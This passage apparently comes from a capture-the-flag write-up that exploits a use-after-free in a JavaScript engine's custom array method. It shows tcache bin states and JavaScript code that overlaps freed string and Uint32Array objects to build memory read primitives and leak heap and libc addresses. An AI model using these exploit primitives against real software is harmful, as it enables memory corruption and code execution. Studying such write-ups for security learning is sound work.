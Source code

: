 A rough estimate of what goes under the hood in the tcache bins.

```text
Freeing `str`:
tcache bin 0x50: [str object]
Freeing `dummy`:
tcache bin 0x50: [dummy_data], [dummy_object], [str object]
Allocating `dummy2`:
tcache bin 0x50: [dummy_object], [str object]
overlap1 -> object memory = dummy_object
overlap1's data = str object [16 * 4] (or even [18 * 4] should work as it allocates a size of 0x50.)
```

### Getting Leaks:
With this `UAF` just change the size of the string and make a function to read characters at different offsets.

```js
overlap1[0] = 20; //ref count, Set it high so it does not get freed and get us into trouble
overlap1[1] = 0x41414141; // String length
overlap1[2] = 0x497f93b1; // Metadata

// Function to get the leaks:
const read_offset_dword = (offset) => {
    let res = 0;
    for (let i = 3; i >= 0; i--) {
        res = (res << 8) | str.charCodeAt(offset + i);
    }
    return res;
};
``` 
With this, you can get any of the `heap` pointers that are after the string object. If you find a `libc` pointer as well, grab it and save time, but unfortunately we did not find any `libc` leak after the object.

### Getting Libc Leak:

We can get a `UAF` similarly on the object of `Uint32Array` then all we have to do is change the pointer to its data to somewhere in the heap which will have a libc leak.

```js
// UAF on rem
let rem = new Uint32Array(0x140);

uaf = [rem];

uaf.randompick();
uaf.randompick();
uaf.randompick();

let overlap = new Uint32Array(18);
overlap[0] = 69; //ref count
overlap[1] = 0x001b0d00; // class_id/flags
overlap[0x10] = 0x41414141; // length

heap_addr = heap + 0x1d4b0;
overlap[8] = heap_addr % 0x100000000;
overlap[9] = heap_addr / 0x100000000;
overlap[0xe] = (heap + 0x2f90) % 0x100000000;
overlap[0xf] = (heap + 0x2f90) / 0x100000000;
```
